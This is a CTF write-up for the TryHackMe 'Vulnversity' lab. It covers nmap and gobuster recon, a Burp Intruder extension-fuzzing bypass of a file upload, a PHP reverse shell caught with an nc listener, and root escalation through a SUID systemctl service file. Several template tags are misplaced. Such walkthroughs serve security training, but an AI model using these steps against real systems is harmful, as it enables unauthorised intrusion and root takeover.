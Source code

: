 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-03-26 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: true
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Using `nmap` as below, all info can be gathered for the task.
{% capture code %}nmap -Pn -T4 -sV --reason --open <ip>{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 3 - Locating directories using Gobuster

Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endcapture %} {% include code.html code=code lang="bash"%}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}curl http://<ip>:3333/<dir>/{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 4 - Compromise the webserver

This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-most-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}nc -lnvp 1234{% endcapture %} {% include code.html code=code lang="bash"%}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endcapture %} {% include code.html code=code lang="bash"%}
{% capture code %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endcapture %} {% include code.html code=code lang="bash"%}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}eop=$(mktemp).service{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% endcapture %} {% include code.html code=code lang="bash"%}/bin/systemctl link $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% endcapture %} {% include code.html code=code lang="bash"%}/bin/systemctl enable --now $eop{% endcapture %} {% include code.html code=code lang="bash"%}


Capture the flag from the manipulated output file.
{% endcapture %} {% include code.html code=code lang="bash"%}cat /tmp/output{% endcapture %} {% include code.html code=code lang="bash"%}

